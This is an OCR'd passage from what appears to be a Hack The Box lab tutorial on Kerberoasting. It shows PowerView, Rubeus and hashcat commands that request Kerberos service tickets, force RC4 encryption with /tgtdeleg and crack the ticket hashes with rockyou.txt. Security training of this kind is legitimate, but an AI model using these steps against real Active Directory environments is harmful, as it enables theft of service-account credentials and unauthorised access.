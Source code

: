 ```powershell-session
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   :
```

`RC4 encryption uses the weak NTLM hash as the key for encryption.  To date tickets encrypted with AES keys are not susceptible to Kerberoasting.`

  
Using the /nowrap Flag

```powershell-session
PS C:\htb> Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```


  
Cracking the Ticket with Hashcat & rockyou.txt

```shell-session
gdxqpardo@htb[/htb]$ hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt 
```

#### Checking Supported Encryption Types

  Checking Supported Encryption Types

```powershell-session
PS C:\htb> Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```

Requesting a new ticket with Rubeus will show us that the account name is using AES-256 (type 18) encryption.

#### Requesting a New Ticket

  Requesting a New Ticket

```powershell-session
PS C:\htb>  .\Rubeus.exe kerberoast /user:testspn /nowrap
```

To run this through Hashcat, we need to use hash mode `19700`, which is `Kerberos 5, etype 18, TGS-REP (AES256-CTS-HMAC-SHA1-96)` per the handy Hashcat [example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) table. We run the AES hash as follows and check the status, which shows it should take over 23 minutes to run through the entire rockyou.txt wordlist by typing `s` to see the status of the cracking job.


#### Running Hashcat & Checking the Status of the Cracking Job

  Running Hashcat & Checking the Status of the Cracking Job

```shell-session
gdxqpardo@htb[/htb]$ hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt 
```
We can use Rubeus with the `/tgtdeleg` flag to specify that we want only RC4 encryption when requesting a new service ticket. The tool does this by specifying RC4 encryption as the only algorithm we support in the body of the TGS request. This may be a failsafe built-in to Active Directory for backward compatibility. By using this flag, we can request an RC4 (type 23) encrypted ticket that can be cracked much faster.

#### Using the /tgtdeleg flag
```powershell
PS C:\EP> .\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap
```




